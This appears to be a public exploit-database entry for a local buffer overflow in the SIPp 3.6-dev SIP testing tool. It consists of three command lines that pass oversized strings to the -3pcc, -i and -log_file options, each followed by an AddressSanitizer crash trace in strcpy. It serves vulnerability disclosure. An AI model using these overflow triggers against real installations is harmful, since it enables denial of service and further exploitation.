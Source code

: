 Exploit Title: SIPp 3.6 - Local Buffer Overflow (PoC)<br>
Date: 2018-06-30<br>
Exploit Author: Fakhri Zulkifli<br>
Vendor Homepage: http://sipp.sourceforge.net/<br>
Software Link: https://github.com/SIPp/sipp/releases<br>
Version: 3.6-dev and earlier<br>
Tested on: 3.6-dev<br>
<br>
$ ./sipp -3pcc `python -c ‘print “A” * 300'`<br>
<br>
#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425<br>
#1 0x668d06 in main /home/user/sipp/src/sipp.cpp:1531:17<br>
#2 0x7ff5ec21282f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)<br>
<br>
$ ./sipp -i `python -c ‘print “A” * 300'`<br>
<br>
#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425<br>
#1 0x66a303 in main /home/user/sipp/src/sipp.cpp:1477:17<br>
#2 0x7f281302682f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)<br>
<br>
$ ./sipp -log_file `python -c ‘print “A” * 300'`<br>
<br>
#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425<br>
#1 0x66912f in main /home/user/sipp/src/sipp.cpp:1706:17<br>
#2 0x7f6ca663782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)<br>
